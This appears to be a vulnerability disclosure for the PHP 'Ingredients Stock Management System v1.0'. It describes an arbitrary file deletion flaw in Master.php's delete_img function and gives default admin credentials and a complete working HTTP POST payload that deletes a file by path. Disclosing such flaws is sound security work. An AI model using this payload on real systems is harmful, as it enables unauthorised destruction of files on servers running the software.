 # Ingredients Stock Management System v1.0 by oretnom23 has Delete any file

vendors: https://www.sourcecodester.com/php/15364/ingredients-stock-management-system-phpoop-free-source-code.html

Vulnerability File: /isms/classes/Master.php?f=delete_img

Vulnerability location: /isms/classes/Master.php?f=delete_img, path

The password for the backend login account is: admin/admin123

Payload:

Here we delete the shell.php file in the root directory

```sql
POST /isms/classes/Master.php?f=delete_img HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

path=C:\xampp\htdocs\pms\shell.php
```

Currently, when we do not send a request to delete the shell.php file, the shell.php file is still in the root directory of the website

![image](https://user-images.githubusercontent.com/54017627/179383548-8111a46f-2baa-4f41-8ae7-3771354d56ed.png)


The response package shows that the deletion was successful. Let's go to the root directory to see if the shell.php file still exists.
![image](https://user-images.githubusercontent.com/54017627/179383630-5046ec5e-af1a-46fd-a535-3d1d1894ccf0.png)


By this time, shell.php has been deleted.

![image](https://user-images.githubusercontent.com/54017627/179383635-a89d93c7-1620-44c8-a7cf-905cddd1b75a.png)
